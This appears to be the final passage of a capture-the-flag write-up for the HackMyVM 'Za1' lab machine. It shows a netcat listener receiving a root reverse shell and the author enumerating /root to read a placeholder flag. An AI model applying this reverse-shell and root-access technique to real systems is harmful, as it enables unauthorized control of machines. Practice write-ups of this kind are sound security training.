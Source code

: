 ```bash

za_1@za_1:~/.root$
```
{: .nolineno}
{: .nolineno}

I observed the response and I got root →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Za1]
└─$ nc -lvnp 2222                   
listening on [any] 2222 ...
connect to [10.0.2.60] from (UNKNOWN) [10.0.2.70] 42164
bash: cannot set terminal process group (2553): Inappropriate ioctl for device
bash: no job control in this shell
root@za_1:~# whoami
whoami
root
root@za_1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@za_1:~# cd /root
cd /root
root@za_1:~# ls -al
ls -al
total 60
drwx------  6 root root 4096 Aug 22 08:48 .
drwxr-xr-x 24 root root 4096 Jul 26 06:56 ..
lrwxrwxrwx  1 root root    9 Aug 22 08:48 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug 22 08:41 .cache
drwx------  3 root root 4096 Aug 22 08:41 .gnupg
drwxr-xr-x  3 root root 4096 Jul 26 07:43 .local
-rw-------  1 root root  154 Jul 26 08:41 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   25 Jul 26 09:54 root.txt
-rw-r--r--  1 root root   75 Jul 26 09:26 .selected_editor
-rw-------  1 root root  137 Aug 22 08:43 .sqlite_history
drwx------  2 root root 4096 Jul 26 07:07 .ssh
-rw-------  1 root root 9983 Jul 26 09:54 .viminfo
root@za_1:~# cat root.txt
cat root.txt
flag{FLAGFLAGFLAG}
root@za_1:~#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }